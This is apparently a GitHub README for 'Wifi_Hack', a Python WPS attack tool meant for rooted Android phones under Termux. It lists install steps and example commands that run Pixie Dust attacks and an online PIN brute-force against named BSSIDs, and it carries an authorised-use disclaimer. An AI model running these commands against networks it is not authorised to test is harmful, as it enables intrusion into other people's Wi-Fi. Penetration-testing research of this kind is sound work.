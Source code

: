 # Wifi_Hack
- WPS Attack Tool  A Python-based security tool for testing WPS-enabled Wi-Fi networks. Supports Pixie Dust attacks, brute-force PIN attempts, and network enumeration. Designed for penetration testers and researchers.  ⚠ ### ⚠ Disclaimer:
- This tool is for educational and security research purposes only. Unauthorized use on networks you do not own is illegal.


### Hack WIfi Using Termux With Rooted Devices!

<p align="center"><img src="https://i.ibb.co.com/whCnGHbr/Picsart-25-04-01-12-35-57-709-1.jpg"></p>

### Installation:  

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/ruhul-amin-xxl/Wifi_Hack
$ cd Wifi_Hack
$ chmod +x Wifi_Hack.py
$ sudo python Wifi_Hack.py --help
```
Example:
### Note:First,  turn off your Wi-Fi.

Show available networks and start a Pixie Dust attack on a specified network: 

```bash
sudo python Wifi_Hack.py -i wlan0 -K
```


Start a Pixie Dust attack on a specific BSSID:

```bash
sudo python Wifi_Hack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
Launch an online WPS brute-force attack with the specified first half of the PIN:

```bash
sudo python Wifi_Hack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
```

### Troubleshooting
"Device or resource busy (-16)"
- Solution: Turn Wi-Fi ON, then turn it OFF before running the script again.

### ⚠ Disclaimer:
- This tool is for educational and security research purposes only. Unauthorized use on networks you do not own is illegal.
